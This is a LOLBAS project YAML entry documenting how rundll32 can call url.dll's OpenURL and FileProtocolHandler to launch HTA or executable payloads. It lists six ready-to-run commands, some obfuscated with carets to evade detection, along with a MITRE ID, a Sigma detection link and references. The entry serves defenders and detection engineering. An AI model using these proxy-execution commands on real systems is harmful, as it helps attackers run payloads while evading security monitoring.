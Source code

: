 ```yaml
---
Name: Url.dll
Description: Internet Shortcut Shell Extension DLL.
Author: LOLBAS Team
Created: 2018-05-25
Commands:
  - Command: rundll32.exe url.dll,OpenURL "C:\test\calc.hta"
    Description: Launch a HTML application payload by calling OpenURL.
    Usecase: Invoke an HTML Application via mshta.exe (Default Handler).
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Execute: HTA
  - Command: rundll32.exe url.dll,OpenURL "C:\test\calc.url"
    Description: Launch an executable payload via proxy through a(n) URL (information) file by calling OpenURL.
    Usecase: Load an executable payload by calling a .url file with or without quotes.
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Execute: URL
  - Command: rundll32.exe url.dll,OpenURL file://^C^:^/^W^i^n^d^o^w^s^/^s^y^s^t^e^m^3^2^/^c^a^l^c^.^e^x^e
    Description: Launch an executable by calling OpenURL.
    Usecase: Load an executable payload by specifying the file protocol handler (obfuscated).
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Execute: EXE
  - Command: rundll32.exe url.dll,FileProtocolHandler calc.exe
    Description: Launch an executable by calling FileProtocolHandler.
    Usecase: Launch an executable.
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Execute: EXE
  - Command: rundll32.exe url.dll,FileProtocolHandler file://^C^:^/^W^i^n^d^o^w^s^/^s^y^s^t^e^m^3^2^/^c^a^l^c^.^e^x^e
    Description: Launch an executable by calling FileProtocolHandler.
    Usecase: Load an executable payload by specifying the file protocol handler (obfuscated).
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Execute: EXE
  - Command: rundll32.exe url.dll,FileProtocolHandler file:///C:/test/test.hta
    Description: Launch a HTML application payload by calling FileProtocolHandler.
    Usecase: Invoke an HTML Application via mshta.exe (Default Handler).
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Execute: HTA
Full_Path:
  - Path: c:\windows\system32\url.dll
  - Path: c:\windows\syswow64\url.dll
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_rundll32_susp_activity.yml
Resources:
  - Link: https://bohops.com/2018/03/17/abusing-exported-functions-and-exposed-dcom-interfaces-for-pass-thru-command-execution-and-lateral-movement/
  - Link: https://twitter.com/DissectMalware/status/995348436353470465
  - Link: https://twitter.com/bohops/status/974043815655956481
  - Link: https://twitter.com/yeyint_mth/status/997355558070927360
  - Link: https://twitter.com/Hexacorn/status/974063407321223168
  - Link: https://windows10dll.nirsoft.net/url_dll.html
Acknowledgement:
  - Person: Adam (OpenURL)
    Handle: '@hexacorn'
  - Person: Jimmy (OpenURL)
    Handle: '@bohops'
  - Person: Malwrologist (FileProtocolHandler - HTA)
    Handle: '@DissectMalware'
  - Person: r0lan (Obfuscation)
    Handle: '@r0lan'
---
```

